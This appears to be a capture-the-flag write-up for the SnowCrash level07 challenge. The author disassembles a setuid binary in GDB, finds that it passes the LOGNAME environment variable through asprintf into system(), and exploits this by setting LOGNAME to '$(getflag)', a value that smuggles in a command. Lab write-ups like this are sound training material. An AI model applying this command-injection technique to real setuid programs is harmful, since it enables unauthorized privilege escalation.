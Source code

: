 # SnowCrash Level07

We have a binary in our home directory.
Tried to run it :
```
level07@SnowCrash:~$ ./level07
level07
```

I was like maybe it prints its name, I tried to copy it in /tmp and rename it.
But no luck.

GDB TIME...
```
	[...]
	0x0804855b <+71>:	mov    eax,DWORD PTR [esp+0x1c]
   	0x0804855f <+75>:	mov    DWORD PTR [esp],eax
  	0x08048562 <+78>:	call   0x80483d0 <setresuid@plt>
   	0x08048567 <+83>:	mov    DWORD PTR [esp+0x14],0x0
   	0x0804856f <+91>:	mov    DWORD PTR [esp],0x8048680
   	0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   	0x0804857b <+103>:	mov    DWORD PTR [esp+0x8],eax
   	0x0804857f <+107>:	mov    DWORD PTR [esp+0x4],0x8048688
   	0x08048587 <+115>:	lea    eax,[esp+0x14]
   	0x0804858b <+119>:	mov    DWORD PTR [esp],eax
   	0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   	0x08048593 <+127>:	mov    eax,DWORD PTR [esp+0x14]
   	0x08048597 <+131>:	mov    DWORD PTR [esp],eax
   	0x0804859a <+134>:	call   0x8048410 <system@plt>
	[...]
```

There's a getenv function call + sprintf... lets see what was that getenv.
```
(gdb) x/s 0x8048680
0x8048680:	 "LOGNAME"
```

Okey so the argument that getenv takes was LOGNAME.
Doing a simple env :
```
	[...]
	LOGNAME=level07
	[...]
```

Let's change it to getflag...
```
level07@SnowCrash:~$ export 'LOGNAME=$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : 
```
